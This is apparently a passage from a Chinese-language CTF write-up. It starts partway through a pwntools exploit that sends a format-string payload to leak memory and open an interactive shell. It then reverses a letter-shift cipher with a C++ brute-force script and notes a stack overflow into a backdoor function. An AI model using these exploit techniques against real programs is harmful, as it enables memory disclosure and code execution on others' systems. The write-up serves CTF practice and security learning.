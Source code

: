 ```python
		sd=lambda x:p.send(x)
		sa=lambda a,b:p.sendafter(a,b)
		sla=lambda a,b:p.sendlineafter(a,b)
		ia=lambda :p.interactive()
		
		sla('account:', 'a')
		sla('Please enter your password:', '\x00')
		sl('yes')
		
		sla('Please input your private code:', b'%8$saaaa'+p64(0x404028))
		print('[*]Rush')
		print(ru('aaaa'))
		ia()
		print('[+]Success')
	except:
		print('[-]Failed')
```



### auto

main函数太大ida不能直接f5

动调大致看看加密逻辑，其实就是`(5 * (a2+j) + a1+i - 'A') % 26 + 'A'`

写脚本爆破所有的加密结果

```c++
//g++ -o decode decode.c
//./decode
#include<iostream>

using namespace std;

int main()
{
	char a1 = 'A';
	int a2 = 0;
	char ret = 0,src = 0;
    for(int i = 0; i<26; i++){
		for(int j = 0; j<8; j++){
			ret = (5 * (a2+j) + a1+i - 'A') % 26 + 'A' ;
			src = a1+i;
			cout << src << ":";
			cout << ret << " ";
		}
		cout << "\n";
	}
    return 0;
}
```

通过验证后栈溢出覆盖返回地址为后门函数
